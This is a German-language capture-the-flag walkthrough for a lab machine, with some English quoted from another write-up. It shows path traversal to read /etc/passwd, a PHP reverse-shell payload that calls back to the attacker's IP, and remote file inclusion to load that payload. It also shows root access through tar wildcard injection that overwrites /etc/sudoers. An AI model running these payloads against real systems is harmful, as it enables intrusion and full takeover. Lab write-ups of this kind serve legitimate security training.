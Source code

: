http://10.10.17.9/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

->Test erfolgreich 

Jetzt laden wir uns eine PHP Rev shell 

```
<?php  
/**  
* Plugin Name: Wordpress Reverse Shell  
* Author: azkrath  
*/  
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.17.176/4444 0>&1’”)  
?>
```

und starten einen nc Listener und Python webserver

```
python3 -m http.server
rlwrap nc -lvnp 4444
```

Jetzt müssen wir nur noch die anfrage anpassen

http://10.10.17.9/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.17.176:8000/Desktop/rev.php

und schon erhalten wir die Rev shell
# Privilegien Eskallieren

Checken der Sudo Rechte, SUID und Capability's -> ohne Erfolg 

Checken der Cronjobs -> Interessantes Resultat 

Jede Minute wird /home/milesdyson/backup das backup.sh Script aufgeführt. Beim durchlesen der Shell Datei kann man eine Wildcard sehen welche wir nutzen können 

Das habe ich aber alleine nicht hinbekommen deshalb hier der Lösungsweg aus Writeup

There were multiple methods to get root from this vulnerability, we decided to use it to grant the sudoers permission instead of getting another shell. So, we moved to the directory that is being backed up and then created another shell script by the name of pavan.sh and entered the command inside it using echo. Then we proceeded to enter the checkpoint that will run the shell command when the tar will be backing up the directory. Using the sudo -l command we saw that the sudoers entry has been made. We just use the sudo bash command to get the root shell. We read the root flag to conclude the machine.

```
cd /var/www/html
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > pavan.sh
echo "/var/www/html" > "--checkpoint-action=exec=sh pavan.sh"
echo "/var/www/html" > --checkpoint=1
sudo -l
sudo bash
cat /root/root.txt
```